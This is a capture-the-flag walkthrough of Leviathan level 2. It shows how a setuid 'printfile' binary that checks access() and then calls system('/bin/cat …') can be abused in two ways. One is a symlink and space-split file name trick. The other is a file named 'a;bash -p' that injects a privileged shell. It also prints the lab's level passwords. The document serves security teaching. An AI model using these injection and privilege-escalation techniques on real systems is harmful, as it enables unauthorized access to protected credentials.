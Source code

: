 # Leviathan level 2

There is a set-user-ID executable named 'printfile' in home directory. Running it I get:

```bash
*** File Printer ***
Usage: ./printfile filename
```

- running `ltrace ./printfile /etc/leviathan_pass/leviathan3` I get:

```bash
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)          = -1
puts("You cant have that file..."You cant have that file...
)                   = 27
+++ exited (status 1) +++
```

- running `ltrace ./printfile /etc/leviathan_pass/leviathan2` I get:

```bash
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)          = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
geteuid()                                            = 12002
geteuid()                                            = 12002
setreuid(12002, 12002)                               = 0
system("/bin/cat /etc/leviathan_pass/lev"...NsN1HwFoyN
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                               = 0
+++ exited (status 0) +++ "
```

So I see that the setuid printfile executable uses access() function to check if it has read permission to the given file (NOTE: access uses real uid when checking for permissions). If access() is successfule it created the str "/bin/cat {filename}" with the specified filename and calls system() on it.

After some searching I found something called Time-of-Check to Time-of-Use vulnerability that can be exploited here. The executable uses access() to check permissions and then uses system() to cat the contents of the file. But between the two calls the file could have potentially been changed. I will try to use that fact.

### Solution

- I create a temporary directory using
`mkdir /tmp/leviathan2 && cd /tmp/leviathan2` . In here I create 3 files named a, b and "a b".  

- I create a symbolic link from b to '/etc/leviathan_pass/leviathan3' using `ln -sf /etc/leviathan_pass/leviathan3 b`.

- I run `/home/leviathan2/printfile "a b"` and I get the contents of /etc/leviathan_pass/leviathan3

That is because access() checks for read permissions on "a b" file which I created, but ```system(/bin/cat a b)``` will cat the contents of a and then the contents of b file, which is a symbolic link to the desired passwd. And because this is a set-uid binary we can get the desired passswd.

#### Alternative solution

After implementing that I found a shorter and a bit smarter solution.

- Like before I can create a file named "a;bash -p" and a file named "a".
- After running `printfile "a;bash -p"` I get a new bash, and running `whoami` I see that I am now `leviathan3` and I can just cat the contents of the password.

This happens because when running `bash -p` prevents the binary from dropping the permissions. From the docs :

```bash
-p

Turn on privileged mode. In this mode, the $ENV and $BASH_ENV files are not processed, shell functions are not inherited from the environment, and the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored. If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, these actions are taken and the effective user id is set to the real user id. If the -p option is supplied at startup, the effective user id is not reset. Turning this option off causes the effective user and group ids to be set to the real user and group ids. 
```

passwd for level 3: f0n8h2iWLP
